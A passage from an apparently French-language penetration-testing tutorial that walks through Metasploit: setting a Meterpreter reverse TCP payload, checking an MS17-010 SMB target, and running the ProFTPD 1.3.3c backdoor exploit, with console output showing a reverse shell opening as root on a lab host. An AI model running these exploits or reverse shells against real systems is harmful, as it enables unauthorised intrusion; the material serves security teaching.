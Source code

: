 ```sh
msf6 exploit(windows/smb/ms17_010_psexec) > options
[...]

Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.56.101   yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

```

### Executer un exploit

Sur les exploits qui le supportent, on peut utiliser la commande `check` pour vérifier si la cible est vulnérable.

```sh
msf6 exploit(windows/smb/ms17_010_psexec) > check

[*] 172.16.237.130:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[-] 172.16.237.130:445    - Host does NOT appear vulnerable.
[*] 172.16.237.130:445    - Scanned 1 of 1 hosts (100% complete)
[*] 172.16.237.130:445 - Cannot reliably check exploitability.
```

Finalement, on utilise la commande `run` pour exécuter l'exploit.

```sh
msf6 exploit(unix/ftp/proftpd_133c_backdoor) > run 

[*] Started reverse TCP double handler on 192.168.3.8:4444 
[*] 192.168.3.173:21 - Sending Backdoor Command
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo Fcjmid852usWprlr;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "Fcjmid852usWprlr\r\n"
[*] Matching...
[*] B is input...
[*] Command shell session 1 opened (192.168.3.8:4444 -> 192.168.3.173:42450) at 2021-01-25 15:55:09 +0100

id
uid=0(root) gid=0(root) groups=0(root),65534(nogroup)

```

### Améliorer son Shell
